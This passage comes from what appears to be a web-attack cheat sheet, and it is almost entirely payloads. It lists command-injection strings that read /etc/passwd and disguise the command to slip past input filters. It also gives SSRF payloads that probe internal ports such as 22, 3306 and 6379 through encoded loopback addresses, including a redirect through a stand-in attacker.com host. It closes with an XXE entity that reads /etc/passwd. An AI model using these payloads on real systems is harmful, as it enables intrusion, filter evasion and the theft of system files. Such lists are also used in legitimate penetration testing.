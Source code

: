 ### Bypassing Filters
```
# Space bypasses
param=cat${IFS}/etc/passwd
param=cat<>/etc/passwd
param=cat$IFS/etc/passwd

# Character bypasses
param=c'a't /etc/passwd
param=c"a"t /etc/passwd
param=c\at /etc/passwd
param=$'\x63\x61\x74' /etc/passwd

# Command substitution
param=$(c$()at /etc/passwd)
param=`c$()`at /etc/passwd`
```

## Server-Side Request Forgery (SSRF)

### Detection
```
# Basic tests
param=http://localhost
param=http://127.0.0.1
param=http://[::1]

# Internal services
param=http://127.0.0.1:22
param=http://127.0.0.1:3306
param=http://127.0.0.1:6379
```

### Bypassing Filters
```
# Alternative representations
param=http://0
param=http://0.0.0.0
param=http://127.1
param=http://2130706433 (decimal IP)
param=http://0x7f000001 (hex IP)

# Using redirects
1. Set up redirect: http://attacker.com/redirect -> http://127.0.0.1
2. param=http://attacker.com/redirect
```

## XML External Entity (XXE)

### Detection
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```
